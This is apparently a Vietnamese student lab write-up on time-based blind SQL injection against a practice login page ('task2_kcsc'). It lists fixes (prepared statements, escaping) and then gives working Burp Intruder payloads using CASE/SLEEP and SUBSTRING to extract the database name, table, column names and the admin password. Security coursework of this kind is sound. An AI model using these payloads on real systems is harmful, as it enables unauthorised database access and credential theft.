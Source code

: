 # Link demo : 
# Cách khắc phục :
Có thể khắc phục bằng cách tham số hóa đầu vào của thâm số người dùng truyền vào bằng một số cách như là:
-  $stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
  $stmt->bind_param("ss", $username, $password);
  $stmt->execute();
- Hoặc làm sạch đầu vào   $cleaned_username = mysqli_real_escape_string($conn, $username);
$cleaned_password = mysqli_real_escape_string($conn, $password);
- Và tìm hiểu các CVE của các phiên bản để tránh được lỗi này có thể xảy ra.




![Alt text](./imageTimeBase/image.png)

Ban đầu em vào giao diện có như này
![Alt text](./imageTimeBase/image-5.png)
- Sau đó em vào burpsuite để check việc đăng nhập

- em dùng timebase để tấn công và em nhận được phản hồi sau 5 giây\
Payload : admin'+or+(case+when+1%3d2+then+1+else+sleep(5)+end)%3d1+--+-
![Alt text](./imageTimeBase/image-7.png)

- Tiếp sao đó em dùng cách như union base để tìm tên database:
Payload : ' or (case when substring((select database() limit 0,1),§1§,1)='§a§' then sleep(1) else 1 end)=1 -- -

- với payload 1 là vị trí kí tự của tên database
- payload 2 là brute force
- Em sẽ lọc như phần tử nào lớn hơn 5s khi trả về kết quả

![Alt text](./imageTimeBase/image-8.png)
![Alt text](./imageTimeBase/image-9.png)
![Alt text]./imageTimeBase/(image-10.png)

![Alt text](./imageTimeBase/image-11.png)

- Những request trả ra lơn hơn 5s em sẽ lọc và nhận được tên của database là task2_kcsc
- Tiếp tục tương tự :
Payload :
' or (case when substring((select table_name from information_schema.tables where table_schema='task2_kcsc' limit 0,1),§1§,1)='§6§' then sleep(5) else 1 end)=1 -- -
Em nhận được tên bảng là users
- Payload :
' or (case when substring((select column_name from information_schema.columns where table_name='users' limit 2,1),§1§,1)='§p§' then sleep(5) else 1 end)=1 -- -
![Alt text](./imageTimeBase/image-13.png)
+ Em lấy được tên cột 
![Alt text](./imageTimeBase/image-12.png)

- Cuối cùng em sẽ brute-force password:
Payload : ' or (case when substring((select password from users limit 0,1),§1§,1)='§p§' then sleep(5) else 1 end)=1 -- -
![Alt text](./imageTimeBase/image-14.png)
- em nhận được password là hihi123
+ Vậy là em đã có được password của admin và sẽ tấn công cho những loại khác sau khi đăng nhập


